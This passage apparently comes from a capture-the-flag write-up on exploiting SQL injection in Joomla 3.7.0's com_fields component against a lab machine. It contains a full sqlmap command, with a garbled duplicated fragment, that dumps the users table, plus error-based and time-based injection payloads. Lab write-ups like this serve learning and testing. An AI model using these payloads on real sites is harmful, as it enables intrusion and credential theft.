 With a `#__users` table now identified, I decided to attempt to enumerate this table for a valid set of user credentials. But before doing that I needed to provide the columns of the table. Luckily, the schema for the `users` table for joomla `3.7.0` was readily available so I created a wordlist using the column names.

```bash
root@kali:~/ctf# cat table_schema.txt 
id
name
username
email
password
usertype
block
sendEmail
registerDate
lastvisitDate
activation
params
```

```bash
msf5 auxiliary(scanner/http/joomla_version) > sqlmap -u "http://10.10.162.223/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" -p 'list[fullordering]' --risk=3 --level=5 --random-agent --proxy http://127.0.0.1:8080 --technique=TE --dbms=MySQL -D joomla -T '#__users' --dumpatexml" -p 'list[fullordering]' --risk=3 --level=5 --random-agent --proxy http://127.0.0.1:8080 --technique=TE --dbms=MySQL -D joomla -T '#__users' --dump
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.4.8#stable}
|_ -| . [)]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program
[*] starting @ 21:34:53 /2020-11-27/

[21:34:53] [INFO] testing connection to the target URL
[21:34:54] [WARNING] the web server responded with an HTTP error code (500) which could interfere with the results of the tests
you have not declared cookie(s), while server wants to set its own ('eaa83fe8b963ab08ce9ab7d4a798de05=n9efcr7j772...u0vd4k6dr5'). Do you want to use those [Y/n] Y
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: list[fullordering] (GET)
    Type: error-based
    Title: MySQL >= 5.0 error-based - Parameter replace (FLOOR)
    Payload: option=com_fields&view=fields&layout=modal&list[fullordering]=(SELECT 8098 FROM(SELECT COUNT(*),CONCAT(0x71786a6b71,(SELECT (ELT(8098=8098,1))),0x71706b6271,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)

    Type: time-based blind
    Title: MySQL >= 5.0.12 time-based blind - Parameter replace (substraction)
    Payload: option=com_fields&view=fields&layout=modal&list[fullordering]=(SELECT 9257 FROM (SELECT(SLEEP(5)))iXhJ)
---
[21:34:56] [INFO] testing MySQL
[21:34:56] [INFO] confirming MySQL
[21:34:56] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0.0 (MariaDB fork)
[21:34:56] [INFO] fetching columns for table '#__users' in database 'joomla'
[21:34:56] [WARNING] unable to retrieve column names for table '#__users' in database 'joomla'
do you want to use common column existence check? [y/N/q]
```